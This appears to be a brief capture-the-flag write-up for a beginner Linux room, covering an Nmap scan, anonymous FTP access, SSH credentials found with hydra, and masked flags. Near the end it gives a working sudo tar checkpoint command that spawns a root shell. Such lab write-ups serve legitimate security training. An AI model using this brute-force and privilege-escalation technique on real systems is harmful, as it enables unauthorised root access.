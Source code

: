 ##Easy room to practice basic enumeration and privilege escalation in linux

#Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
#FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

#Found login and password to ssh using hydra

```
user: ***
password: *******************

```
#Found flag1: `THM{*****_*********}`

#Using sudo -l found that user can run tar as sudo 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
opens a shell as root and then found root flag under/root/root.txt

#Found flag2:`THM{******_******}`
